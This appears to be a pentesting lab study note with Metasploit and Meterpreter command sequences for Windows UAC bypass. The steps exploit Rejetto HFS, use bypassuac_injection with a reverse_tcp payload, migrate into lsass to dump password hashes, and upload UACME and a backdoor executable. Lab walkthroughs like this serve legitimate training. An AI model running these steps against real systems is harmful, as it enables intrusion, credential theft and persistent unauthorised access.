 - UAC
    - UAC Bypass: Memory Injection
        
        ```powershell
        nmap 10.0.23.239
        nmap -sV -p 80 10.0.23.239
        searchsploit hfs
        
        Metasploit
        msfconsole -q
        use exploit/windows/http/rejetto_hfs_exec
        set RHOSTS 10.0.23.239
        exploit
        
        Meterpreter
        getuid
        sysinfo
        ps -S explorer.exe
        migrate 2440
        getsystem
        shell
        net localgroup administrators
        
        use exploit/windows/local/bypassuac_injection
        set session 1
        set TARGET 1
        set PAYLOAD windows/x64/meterpreter/reverse_tcp
        exploit
        
        getsystem
        getuid
        
        shell 
        net users
        net localgroup administrators
        
        ps -S lsass.exe
        migrate 688
        
        hashdump
        ```
        
    - UAC
        
        ```powershell
        Meterpreter
        ps -S explorer.exe
        migrate 2444
        getuid
        sysinfo
        getsystem
        shell
        net localgroup administrators
        CTRL + C
        cd C:\\Users\\admin\\AppData\\Local\\Temp
        upload /root/Desktop/tools/UACME/Akagi64.exe .
        upload /root/backdoor.exe .
        ls
        hashdump
        ```
        